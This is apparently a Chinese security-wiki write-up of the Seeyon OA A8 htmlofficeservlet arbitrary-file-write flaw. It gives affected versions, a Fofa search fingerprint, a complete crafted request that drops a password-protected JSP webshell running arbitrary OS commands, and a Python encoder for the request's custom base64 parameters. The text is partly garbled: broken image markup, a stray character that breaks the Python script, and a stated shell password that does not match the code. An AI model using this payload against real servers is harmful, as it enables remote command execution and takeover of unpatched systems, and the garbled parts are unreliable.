 致远 OA A8 htmlofficeservlet getshell 漏洞
==========================================

一、漏洞简介
------------

访问https://wiki.0-sec.org/img
src=\"https://wiki.0-sec.org/img/19f51e83094c4ce79a3da658a24f961b.png\"
alt=\"1.png\" class=\"large\" onclick=\"window.open(this.src)\" /\>

二、漏洞影响
------------

致远A8-V5协同管理软件 V6.1sp1

致远A8+协同管理软件 V7.0、V7.0sp1、V7.0sp2、V7.0sp3

致远A8+协同管理软件 V7.1

三、复现过程
------------

### 指纹

    https://www.0-sec.org/seeyon/htmlofficeservlet/seeyon/index.jsp
    seeyon
    Fofa：app="用友-致远OA"

![0d4b978ed1474946.png](./resource/致远OAA8htmlofficeservletgetshell漏洞/media/rId25.png)

    DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
    OPTION=S3WYOSWLBSGr
    currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
    CREATEDATE=wUghPB3szB3Xwg66
    RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
    originalFileId=wV66
    originalCreateDate=wUghPB3szB3Xwg66
    FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
    needReadFile=yRWZdAS6
    originalCreateDate=wLSGP4oEzLKAz4=iz=66
    <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("asasd33445".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7ce

webshell地址为**https://www.0-sec.org/seeyon/test123456.jsp**，密码为：asasd3344。

### poc

    from sys import argv

    letters = "gx74KW1roM9qwzPFVOBLSlYaeyncdNbI=JfUCQRHtj2+Z05vshXi3GAEuT/m8Dpk6"

    def base64_encode(input_str):
        str_ascii_list = ['{:0>8}'.format(str(bin(ord(i))).replace('0b', ''))
                          for i in input_str]
        output_str = ''
        equal_num = 0
        while str_ascii_list:
            temp_list = str_ascii_list[:3]
            if len(temp_list) != 3:
                while len(temp_list) < 3:
                    equal_num += 1
                    temp_list += ['0' * 8]
            temp_str = ''.join(temp_list)
            temp_str_list = [temp_str[x:x + 6] for x in [0, 6, 12, 18]]
            temp_str_list = [int(x, 2) for x in temp_str_list]
            if equal_num:
                temp_str_list = temp_str_list[0:4 - equal_num]
            output_str += ''.join([letters[x] for x in temp_str_list])
            str_ascii_list = str_ascii_list[3:]
        output_str = output_str + '=' * equal_num
        return output_str

    def base64_decode(input_str):
        str_ascii_list = ['{:0>6}'.format(str(bin(letters.index(i))).replace('0b', ''))
                          for i in input_str if i != '=']
        output_str = ''
        equal_num = input_str.count('=')
        while str_ascii_list:
            temp_list = str_ascii_list[:4]
            temp_str = ''.join(temp_list)
            if len(temp_str) % 8 != 0:
                temp_str = temp_str[0:-1 * equal_num * 2]
            temp_str_list = [temp_str[x:x + 8] for x in [0, 8, 16]]
            temp_str_list = [int(x, 2) for x in temp_str_list if x]
            output_str += ''.join([chr(x) for x in temp_str_list])
            str_ascii_list = str_ascii_list[4:]
        return output_str

    if __name__ == "__main__":
        if len(argv) == 2:
            print(base64_decode(argv[1]))
        elif len(argv) == 3:
            if argv[1] == '-d':
                print(base64_decode(argv[2]))
            else:
                print(base64_encode(argv[2]))
        else:
            print("Seeyon OA /seeyon/htmlofficeservlet param encode/decode")
            print("Usage:")
            print("python %s encoded_str" % argv[0])t
            print("python %s -d encoded_str" % argv[0])
            print("python %s -e raw_str" % argv[0])

参考链接
--------

> https://github.com/nian-hua/CVEScript/blob/master/致远OA/zhiyuan.py
>
> http://wyb0.com/posts/2019/seeyon-htmlofficeservlet-getshell/
